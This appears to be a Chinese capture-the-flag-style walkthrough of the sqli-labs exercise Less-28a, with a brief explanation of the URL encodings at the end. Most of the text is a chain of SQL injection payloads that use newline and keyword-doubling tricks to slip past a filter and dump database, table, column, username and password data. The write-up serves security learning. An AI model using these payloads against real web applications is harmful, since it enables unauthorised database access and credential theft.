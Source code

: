 # Less-28a

~~~  txt
?id=2%27)%0aand%0a1=1;%00
~~~

![Less-28a-01](./img/Less-28a-01.png)



继续输入

~~~ txt
?id=2%27)%0aand%0a1=2;%00
~~~

![Less-28a-02](./img/Less-28a-02.png)



输入

~~~ txt
?id=2%27)%0aorder%0aby%0a3;%00
~~~

![Less-28a-03](./img/Less-28a-03.png)



继续输入

~~~ txt
?id=2%27)%0aorder%0aby%0a4;%00
~~~

![Less-28a-04](./img/Less-28a-04.png)



输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,3;%00
~~~

![Less-28a-05](./img/Less-28a-05.png)



继续输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,database();%00
~~~

![Less-28a-06](./img/Less-28a-06.png)



输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='security');%00
~~~

![Less-28a-07](./img/Less-28a-07.png)



继续输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='security'%0aand%0atable_name='users');%00
~~~

![Less-28a-07](./img/Less-28a-08.png)



输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(username,password)%0afrom%0ausers);%00
~~~

![Less-28a-09](./img/Less-28a-09.png)



其中’**%27**’可以被url解码为‘ **单引号**，而**%0a**被解码为**换行符**，而%00则被url解码为 **ASCII 值为0的字符**，即 **NUL（空字符）**

